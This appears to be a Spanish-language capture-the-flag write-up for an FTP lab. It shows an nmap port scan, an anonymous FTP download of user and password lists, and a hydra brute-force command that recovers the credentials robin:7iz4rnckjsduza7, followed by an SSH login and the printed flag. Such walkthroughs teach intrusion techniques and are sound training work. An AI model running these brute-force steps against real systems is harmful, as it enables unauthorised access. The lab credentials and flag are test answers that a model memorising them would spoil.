


# Laboratorio FTP 📃

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    
</p>

* El servicio **FTP** se ejecuta en el puerto `2121`

---

Nos logueamos en el **servicio FTP** como un `usuario anonymous` y nos descargamos los archivos que existen en el servicio

<p align="center">
    
</p>

* Usamos `get passwords.list` y `get users.list`

---

Los archivos descargados anteriormente son **listas de contraseñas y nombres de usuarios** que posiblemente sean credenciales válidas para este servicio.

Usaremos **hydra** para realizar **fuerza bruta** con las listas anteriores.

```bash
hydra -L users.list -P passwords.list -u -f ftp://[IP]:2121
```

* **`-L`** Indicamos una lista de posibles usuarios válidos.
* **`-P`** Indicamos un lista de posibles contraseñas.
* **`-u`** Testearemos cada usuario con todas las contraseñas.
* **`-f`** Cuando encuentre **credenciales válidas** se detiene el ataque.

**Output**
```
[2121][ftp] host: 10.129.203.6   login: robin   password: 7iz4rnckjsduza7
```

---

Tenemos las credenciales **`robin:7iz4rnckjsduza7`**, ahora nos loguearemos en el servicio **`SSH`**

+ `ssh robin@[IP]`

Ahora leemos la **flag** 🏴
```
$ cat flag.txt
HTB{ATT4CK1NG_F7P_53RV1C3}
```